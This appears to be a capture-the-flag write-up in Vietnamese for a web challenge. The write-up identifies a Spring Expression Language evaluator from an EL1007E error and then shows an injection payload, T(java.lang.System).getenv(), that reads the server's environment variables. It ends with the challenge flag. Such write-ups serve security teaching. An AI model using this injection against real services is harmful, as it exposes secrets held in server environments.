



# I Don't Want to be an Engineer

## Summary

```
I Don’t Want to be an Engineer
252 pts

I don't want to be an engineer
I tried so hard and got so far and now I can't decide
All my life I've given my career
These numbers in my head keep on spinning round and round, yeah
I can only guess what's right
Should I stay three more years just to waste away?
Become a slave to all these numbers?
It's overdue, all the stress, yet I say I'm fine
```

## Solution

### Xác định bộ đánh giá biểu thức

Gửi một phép tính thường tới endpoint:



Tiếp theo thay body bằng input không hợp lệ:



Response trả về lỗi chứa `EL1007E`:

```text
{"answer":"EL1007E: Property or field 'abc' cannot be found on null","status":"error"}
```

### Đọc biến môi trường

SpEL cho phép truy cập lớp Java bằng cú pháp `T(...)`. Request đọc biến môi trường:

```text
T(java.lang.System).getenv()
```



## Flag

```text
PTITCTF{h77p5://youtU.b3/nRE903_Ajn9?si=5OM3oNE_7311_VedAI_7Here_lS_A_pR0BIEm_WI7h_my_A1_[TEAM)h4SH]}
```
